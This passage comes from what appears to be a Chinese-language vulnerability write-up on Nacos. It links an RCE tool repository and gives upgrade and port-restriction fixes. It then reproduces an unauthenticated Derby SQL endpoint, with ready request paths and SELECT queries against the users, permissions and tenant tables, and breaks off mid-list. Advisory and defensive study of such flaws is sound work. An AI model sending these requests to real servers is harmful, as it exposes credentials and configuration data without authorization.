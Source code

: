 ```  
https://github.com/c0olw/NacosRce/  
  
**4.漏洞修复**  
  
通用修补建议  
  
升级到Nacos 1.4.6、Nacos 2.2.3：  
  
```
https://github.com/alibaba/nacos/releases/tag/1.4.6
https://github.com/alibaba/nacos/releases/tag/2.2.3
```  
  
  
  
临时修补建议  
  
对外限制开放7848端口，一般使用时该端口为Nacos集群间Raft协议的通信端口，不承载客户端请求，因此老版本可以通过禁止该端口来自Nacos集群外的请求达到止血目的（如部署时已进行限制或未暴露，则风险可控）。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mfPo9TiaS3coAKiaKLLG0Apn3z0m0xkTfPGXWiaDTW2z0bZ2rDvLiaNiaSPTmcux3pzc8hsTMsj4h360Hfuax7pltmA/640?wx_fmt=png "")  
  
sql注入  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibwbKh16rrm4yUEtxo5kFpqxcbTE8tDVW3PEPKaMia7XxibwcCvvHprfN0ic1Aq0DpUksLnJvU7IFuWmWmxticKKr8g/640?wx_fmt=png "")  
  
  
  
  
**1,漏洞描述**  
  
Nacos config server 中有未鉴权接口，执行 SQL 语句可以查看敏感数据，可以执行任意的 SELECT 查询语句。  
  
**2.影响版本**  
  
使用derby数据库进行部署的Nacos  
  
**3.漏洞复现**  
  
  
```
/nacos/v1/cs/ops/derby?sql=select+*+from+sys.systables
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
```  
  
  
  
一些查询语句：  
  
```
select * from users
select * from permissions
select * from roles
select * from tenant_info
select * from tenant_capacity
select * from group_capacity
select * from config_tags_relation
select * from app_configdata_relation_pubs
select * from app_configdata_relation_subs
select * from app_list
select * from config_info_aggr